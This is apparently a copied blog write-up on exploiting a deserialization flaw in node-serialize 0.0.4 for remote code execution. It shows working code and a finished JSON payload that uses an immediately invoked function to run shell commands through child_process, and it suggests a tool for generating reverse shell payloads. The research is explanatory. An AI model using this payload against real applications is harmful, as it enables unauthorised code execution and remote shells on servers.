

From https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
RCE can be obtained with Immediately Invoked Function Expression (IIFE)
I have used node-serialize version 0.0.4 for this research. For successful exploitation, arbitrary code execution should occur when untrusted input is passed into unserialize() function. The best way to create a payload is to use the serialize() function of the same module.
I created the following JavaScript object and passed it to serialize() function.
var y = {
rce : function(){
require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
Which gives the following output.

the problem is code execution won’t happen until you trigger the function corresponding to the rce property of the object.
Later I figured out that we can use JavaScript’s Immediately invoked function expression (IIFE) for calling the function. If we use IIFE bracket ()after the function body, the function will get invoked when the object is created. It works similar to a Class constructor in C++.
Now the serialize() function with the modified object code is called.
oS we have the exploit payload:
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
Passing it to unserialize() function will result in code execution.
You can use something like nodejsshell.py for a reverse shell payload generation. Just make sure you make the function into an IIFE and call it appropriately.